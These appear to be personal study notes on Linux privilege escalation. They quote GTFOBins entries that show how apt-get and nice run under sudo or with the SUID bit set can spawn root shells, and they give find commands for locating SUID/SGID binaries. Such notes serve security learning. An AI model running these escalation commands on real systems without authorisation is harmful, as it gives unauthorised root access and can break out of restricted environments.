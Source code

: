 # Priveledge Escalation

To check a list of all the sudo commands that can be run 

	sudo -l

 To become root

 	sudo -i

# SUDO DEMO

	gtfobins.github.io

***SEARCH COMMANDS AND IT'LL TELL YOU WHAT RUNNING IT WILL DO***

Click on "sudo" button and then scroll down to find command "apt-get"
```
.. / apt-get 
Shell Sudo
Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

This invokes the default pager, which is likely to be less, other functions may apply.

apt-get changelog apt
!/bin/sh
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This invokes the default pager, which is likely to be less, other functions may apply.

sudo apt-get changelog apt
!/bin/sh
For this to work the target package (e.g., sl) must not be installed.

TF=$(mktemp)
echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
sudo apt-get install -c $TF sl
When the shell exits the update command is actually executed.

sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

# SUID/SGID

Allow you to execute comands as root even though you are not root 

e.g. change password

## The find command is likely the best tool for finding binaries that are SGID or SUID:
```
find / -type f -perm /4000 -ls 2>/dev/null # Find SUID only files

find / -type f -perm /2000 -ls 2>/dev/null # Find SGID only files

find / -type f -perm /6000 -ls 2>/dev/null # Find SUID and/or SGID files
```

For example, if the /usr/bin/nice executable is suid, it could be used to execute arbitrary commands via:

***ON GTFO BINS***

```
.. / nice 
Shell SUID Sudo
Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

nice /bin/sh
SUID
If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.
## SKIP THIS STEP, CMD WILL ALREADY BE ON BOX, DO NOT INSTALL

sudo install -m =xs $(which nice) .

./nice /bin/sh -p

## DO NOT USE "./" BECAUSE GTFO BINS ASSUMES YOU JUST DOWNLOADED TO CWD, JUST RUN COMMAND 

Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

sudo nice /bin/sh
```

***USE COMMAND *id* TO SEE PERMISSIONS***


POSTULATE










